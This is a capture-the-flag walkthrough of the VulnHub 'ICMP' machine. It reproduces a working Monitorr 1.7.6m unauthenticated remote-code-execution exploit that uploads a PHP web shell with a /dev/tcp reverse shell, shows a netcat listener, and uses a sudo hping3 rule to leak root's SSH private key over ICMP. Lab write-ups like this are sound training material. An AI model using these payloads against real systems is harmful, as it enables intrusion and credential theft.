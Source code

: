 ```yaml
---
layout: post
title:  "ICMP"
categories: [vulnhub]
tags: [linux, Monitorr, crypt, hping3]
---
```



You’ll find this vm in  `https://www.vulnhub.com/entry/icmp-1,633/`

## Port Scan

```bash
nmap 10.0.2.197 -p-
```

```sh
22/tcp open  ssh
80/tcp open  http
```

## Searchsploit

- If we check the port `80` we will see that it runs the `Monitorr` Software

```bash
searchsploit Monitorr
```

```sh            
  ---------------------------------------------- ---------------------------------
   Exploit Title                                |  Path
  ---------------------------------------------- ---------------------------------
  Monitorr 1.7.6m - Authorization Bypass        | php/webapps/48981.py
  Monitorr 1.7.6m - Remote Code Execution (Unau | php/webapps/48980.py
  ---------------------------------------------- ---------------------------------
```

## Python Script - Edited

```python                                                                                                
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  # Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
  # Date: September 12, 2020
  # Exploit Author: Lyhin's Lab
  # Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
  # Software Link: https://github.com/Monitorr/Monitorr
  # Version: 1.7.6m
  # Tested on: Ubuntu 19

  import requests
  import os
  import sys

  if len (sys.argv) != 4:
  	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
  else:
      url = sys.argv[1] + "/mon/assets/php/upload.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

      data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

      requests.post(url, headers=headers, data=data)

      print ("A shell script should be uploaded. Now we try to execute it")
      url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
      requests.get(url, headers=headers)
```

## Reverse Shell

- My VM

```bash
python3 48980.py http://10.0.2.197 10.0.2.15 5555
```
- Listener

```bash
nc -lvp 5555       
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.197 [10.0.2.197] 46598
www-data@icmp:/var/www/html/mon/assets/data/usrimg$
```

## Enumeration

- reminder

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

```bash
cd devel
cat crypt.php

 <?php
  echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
  ?>
```

## SSH Login | USER

- credentials `fox` : `BUHNIJMONIBUVCYTTYVGBUHJNI`
- local.txt : c9db6c88939a2ae091c431a45fb1e59c


## Sudo | hping3
{% highlight sh %}
  $ sudo -l
  [sudo] password for fox:
  Matching Defaults entries for fox on icmp:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User fox may run the following commands on icmp:
      (root) /usr/sbin/hping3 --icmp *
      (root) /usr/bin/killall hping3
{% endhighlight %}

## Read root id_rsa using hping3

- Terminal `1`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe
```

- Terminal `2`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
```

- After running the above commands in terminal 1 the id_rsa of root will be printed

## Rooted

```bash
ssh -i id_rsa root@10.0.2.197
```
- proof.txt : 9377e773846aeabb51b37155e15cf638
